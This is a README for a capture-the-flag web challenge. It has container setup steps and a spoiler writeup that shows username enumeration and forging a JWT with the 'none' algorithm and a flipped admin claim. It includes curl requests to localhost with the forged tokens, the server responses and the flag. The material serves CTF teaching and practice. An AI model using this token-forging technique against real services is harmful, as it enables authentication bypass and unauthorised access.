 # Application Ointment

![Main screen](assets/screen1.png)

An <ins>easier difficulty web</ins> challenge where the site is pretty simplistic. Basically one can find a bunch of minfied JavaScript content, a login page that only needs a username field and some animations + music.

## How to run

The image was tested with podman, but should work fine with docker as well.

0. Clone the repo and cd to the root folder of the particular challenge
1. Export the current working directory as a variable: `export CTF_APPLICATION_OINTMENT=$PWD`
2. Build the backend: `cd $CTF_APPLICATION_OINTMENT/backend && ./build.sh build` _(**NOTE**: the build argument is important, otherwise the image won't be prepared)_
3. Build the frontend: `cd $CTF_APPLICATION_OINTMENT/frontend && ./build.sh build`
4. Package and build the final container: `podman build -t ctf-application_ointment:latest .`
5. Run it: `podman rm -f appointment; podman run -d --name=appointment -p 8080:8080 -p 1337:1337 -v $PWD/logs:/var/log/apache2 ctf-application_ointment:latest`

The challenge uses two ports. By default 8080/tcp is used by Apache to serve a static Svelte based frontend and port 1337/tcp is occupied by a pure Go based backend. You are free to change the exposed frontend port, but the backend port is hardcoded, therefore you need to change the sources at the following places:

- [supervisord.conf#L12](supervisord.conf#L12)
- [frontend/src/routes/+page.svelte#L5](frontend/src/routes/+page.svelte#L5)

Also make sure to rebuild both the frontend and the backend + the final container after changing the port!

<details>
<summary>Writeup (Spoiler)</summary>

The challenge idea is nothing unique, it was inspired by the numerous JWT None exploitation writeups out there you find on Google. One such example can be found [here](https://medium.com/@phosmet/forging-jwt-exploiting-the-none-algorithm-a37d670af54f). So the whole challenge is about forging a JWT.

_tldr_ on the exploit: A JWT token consists of three base64 encoded parts joint together with a dot. The first part is the header, the second is the payload and the third is the signature. The header and the payload are JSON objects. And the last bit is usually a signature generated from the header and the payload using a secret key. The hashing algorithm is specified in the header. The header is usually something like this:

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

So in that case HMAC-SHA256 is used to generate the signature. But the JWT specification allows the use of the `none` algorithm, which means that no signature is generated or verified. As far as I know, this was intended for cases where the authenticity of the client was already verified beforehand. In this case no signature is verified.

-- _tldr ends_

Since this is a well-known vulnerability, I wanted to spice things up a little so they need to work a little bit to obtain the flag.

Open up the frontend in a regular web browser and find a login screen. Play around with test inputs and figure that it returns

> Invalid username

for most inputs. When entering the username `admin`, we even get a little easter egg sound effect in the form of a sad trombone. We have a bunch of minified JavaScript files to begin with, which handle a lot of animations and rendering, but if we inspect on the input field, we will see that it has two events attached to it:

![Inspect element display on the username input field](assets/screen2.png)

Jump to the function and either scroll up or add a breakpoint and start typing in the input field. You will shortly be able to intercept a debug message that's being logged to the console when someone enters a correct username:

![Valid usernames found](assets/screen3.png)

So now we have the username. I will stick with `egon` in the writeup, but any will do. Enter that to the textbox and notice this in the console:

> [DEBUG] username seems valid

Click on submit, which should send a POST request along with an url-encoded form of the given username to the backend. The backend then returns something like:

```json
{"token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImVnb24iLCJpc0FkbSI6MCwiZXhwIjoxNjk1MTU2NDA4fQ.VIu1YHytDxsQRQWtXBxskWJyz9myH-PsgZrQET2BazE", "exp": 1695156408}
```

[JWT.io](https://jwt.io/) is a handy website to decode and encode JWT tokens. If we paste the token there, we can see that the payload is:

```json
{
  "username": "egon",
  "isAdmin": 0,
  "exp": 1695156408
}
```

While the header should be as follows:

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

So take `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9`, decode it using your base64 decoder of choice eg. CyberChef, and get the following: `{"alg":"HS256","typ":"JWT"}`. Now replace `HS256` with `none` or `None` (case shouldn't matter), so we get `{"alg":"none","typ":"JWT"}`. Encode it back to base64 and make sure to get rid of the padding `=` signs if there are any. Now we have `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0`.

Optionally let's confirm that we can now bypass the signature verification. First I will make a request with the original token:

```
[steve@todo ctf-application_ointment]$ curl http://127.0.0.1:1337/appointments -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImVnb24iLCJpc0F
kbSI6MCwiZXhwIjoxNjk1MTU2NDA4fQ.VIu1YHytDxsQRQWtXBxskWJyz9myH-PsgZrQET2BazE"
{"error": "Token is expired"}
```

The token was valid for 10 minutes and so its already expired as of time of trying.

If I now invalidate the signature by removing the last character of the token, I get the following:

```
[steve@todo ctf-application_ointment]$ curl http://127.0.0.1:1337/appointments -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImVnb24iLCJpc0FkbSI6MCwiZXhwIjoxNjk1MTU2NDA4fQ.VIu1YHytDxsQRQWtXBxskWJyz9myH-PsgZrQET2Baz"
{"error": "signature is invalid"}
```

Now we know its indeed verified. But what about the `none` algorithm we examined earlier? So for that I will change the content before the first `.` from `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9` to `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0`. I already explained earlier why. Now it's time to test it:

```
[steve@todo ctf-application_ointment]$ curl http://127.0.0.1:1337/appointments -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImVnb24iLCJpc0FkbSI6MCwiZXhwIjoxNjk1MTU2NDA4fQ.VIu1YHytDxsQRQWtXBxskWJyz9myH-PsgZrQET2BazE"
{"appointments": [{"name":"Bust the Ghostly Buffet Bash","date":1677158400},{"name":"Ecto-1 Parade Extravaganza","date":1677244800},{"name":"Slimer's All-You-Can-Slime Buffet","date":1677331200},{"name":"Proton Pack Painting Party","date":1677417600},{"name":"Ghostbusters Trivia Night","date":1677504000},{"name":"Stay Puft Marshmallow Roast","date":1677590400}]}
```

Wild! This means that it treated us logged in with a forged token. In fact you can even completely omit the part after the second dot or replace the whole garbage with `cheesecake` and it will still work. But we are back to the point what we already had on the site...

Time to take a look at the second part of the JWT, which is the claims/payload. Decoding `eyJ1c2VybmFtZSI6ImVnb24iLCJpc0FkbSI6MCwiZXhwIjoxNjk1MTU2NDA4fQ` gets us to `{"username":"egon","isAdm":0,"exp":1695156408}`. If we roll our luck, flip `isAdm` to 1, reencode the payload and send it to the backend, we get the following:

```
[steve@todo ctf-application_ointment]$ curl http://127.0.0.1:1337/appointments -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImVnb24iLCJpc0FkbSI6MSwiZXhwIjoxNjk1MTU2NDA4fQ.VIu1YHytDxsQRQWtXBxskWJyz9myH-PsgZrQET2BazE"
{"appointments": [{"name":"Bust the Ghostly Buffet Bash","date":1677158400},{"name":"Ecto-1 Parade Extravaganza","date":1677244800},{"name":"Slimer's All-You-Can-Slime Buffet","date":1677331200},{"name":"Proton Pack Painting Party","date":1677417600},{"name":"Ghostbusters Trivia Night","date":1677504000},{"name":"Stay Puft Marshmallow Roast","date":1677590400}, {"name":"cq23{g0tta_c4tch_th3m_4ll_6d8441095772cfcf12a846450d}","date":1677676800}]}
```

And that's our flag for the win!

I have prepared a poc script that does the whole thing for you. It's available [here](poc.py).

### Things to consider fixing
- Check if username is valid in case of the `none` algorithm
- I was lazy to find a vulnerable JWT library, so I implemented some sort of check in Go myself. Maybe research a bit more and find a vulnerable library?
- aria-label on back arrow
- resize all assets to 100x100px
- add/remove favicon
- Maybe instead of isAdm in claims, have it working with username: admin? Would that be too much guessing?
- I used Apache to serve the frontend so it's not always nginx. Maybe we can downgrade to some older version of Apache that has a known vulnerabilities, disable the features that are vulnerable and expose the server version in the response headers, so the attacker's attention gets diverted to Apache instead of the JWT? Is that too evil? 
</details>